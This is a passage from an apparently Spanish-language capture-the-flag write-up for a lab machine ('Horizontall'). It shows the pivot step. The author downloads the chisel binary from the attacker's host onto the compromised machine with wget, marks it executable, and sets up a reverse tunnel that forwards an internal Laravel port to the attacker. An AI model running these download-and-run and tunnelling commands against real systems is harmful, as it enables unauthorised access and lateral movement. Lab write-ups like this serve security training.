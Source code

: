 ```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Sun Feb 16 03:43:15 2025  chisel

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario de `chisel` y le daremos los permisos de ejecución correspondientes.

```bash
strapi@horizontall:/tmp$ wget 10.10.16.3/chisel; chmod +x chisel
--2025-02-19 04:52:38--  http://10.10.16.3/chisel
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel            100%[==========================>]   8.94M  8.63MB/s    in 1.0s    

2025-02-19 04:52:39 (8.63 MB/s) - ‘chisel’ saved [9371800/9371800]
```

Desde nuestro equipo, configuraremos `chisel` como servidor.

```bash
❯ ./chisel server --reverse -p 1234
2025/02/19 12:59:49 server: Reverse tunnelling enabled
2025/02/19 12:59:49 server: Fingerprint qrzwT378tyR4YNA2Jfg6h7jmt/4JDam5pCJFQ/67+og=
2025/02/19 12:59:49 server: Listening on http://0.0.0.0:1234
```

Por otro lado, desde el equipo víctima, deberemos de configurar el `chisel`para que actúe como cliente de nuestro servidor y realice el **Port Forwarding** del puerto interno `8000` para que sea el puerto `8000` de nuestro equipo local.

```bash
strapi@horizontall:/tmp$ ./chisel client 10.10.16.3:1234 R:8000:127.0.0.1:8000
2025/02/19 04:56:49 client: Connecting to ws://10.10.16.3:1234
2025/02/19 04:56:50 client: Connected (Latency 31.034143ms)
```

Desde nuestro navegador accederemos a http://localhost.8000 y comprobaremos que efectivamente se trataba de la interfaz de `Laravel`.

{% hint style="info" %}
Laravel es un framework de PHP y es utilizado para desarrollar aplicaciones web. PHP es el lenguaje de programación más utilizado en mundo para desarrollar sitios web, aplicaciones web y los populares CMS, como WordPress o Joomla.
{% endhint %}
